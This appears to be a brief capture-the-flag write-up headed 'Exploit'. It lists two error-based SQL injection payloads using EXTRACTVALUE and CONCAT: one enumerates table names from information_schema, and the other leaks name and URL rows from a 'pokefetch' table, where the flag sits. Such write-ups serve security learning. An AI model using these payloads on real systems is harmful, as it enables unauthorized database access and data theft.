 # Exploit

+ Table Name = `1' and extractvalue(0x0a, concat(0x0a, (select table_name from information_schema.tables where table_schema=database()))) #`
+ Leakeing pokemom = `' AND EXTRACTVALUE(0, CONCAT(0, (SELECT CONCAT(name, '::' , url) FROM pokefetch LIMIT 0,1))) # `
+ And one of the URL is the flag.